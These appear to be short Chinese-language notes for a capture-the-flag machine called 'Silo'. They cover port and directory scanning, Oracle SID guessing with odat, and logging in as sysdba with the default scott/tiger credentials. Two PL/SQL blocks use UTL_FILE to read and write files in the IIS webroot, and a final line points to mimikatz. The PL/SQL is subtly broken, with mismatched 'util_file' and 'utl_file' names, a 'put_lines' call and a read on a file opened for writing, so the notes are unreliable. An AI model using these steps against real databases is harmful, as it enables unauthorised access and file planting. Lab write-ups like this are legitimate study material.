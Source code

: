 
# Silo

* 扫描
``` 
nmap -sC -sV -oA nmap/Slio 10.10.10.82

gobuster -u http://10.10.10.82 -w /usr/share/wordlists/dirbuster/directory.txt
```

* odat
> https://github.com/quentinhardy/odat   
clone之后按readme操作
``` 
./odat.py sidgueseer -s 10.10.10.82 -p 1521
```

* sqlplus64
``` 
sqlplus64 scott/tiger@10.10.10.82:1521/XE as sysdba
   
```
Oracle命令行执行
``` 
# 命令一
> declare 
>   f utl_file.file_type;
>   s varchar(200);
> begin
>   f := util_file.fopen('/inetpub/wwwroot', 'iisstart.htm', 'R');
>   utl_file.get_line(f,s);
>   utl_file.fclose(f);
>   dbms_output.put_lines(s);
> end;

# 命令二
> declare 
>   f utl_file.file_type;
>   s varchar(5000) := 'Please Subscribe';
> begin
>   f := util_file.fopen('/inetpub/wwwroot', 'helloworld.txt', 'W');
>   utl_file.get_line(f,s);
>   utl_file.fclose(f);
>   dbms_output.put_lines(s);
> end;
```

* mimikatz volatility
> https://www.computersecuritystudent.com/FORENSICS/LosBuntu/lesson4/index.html


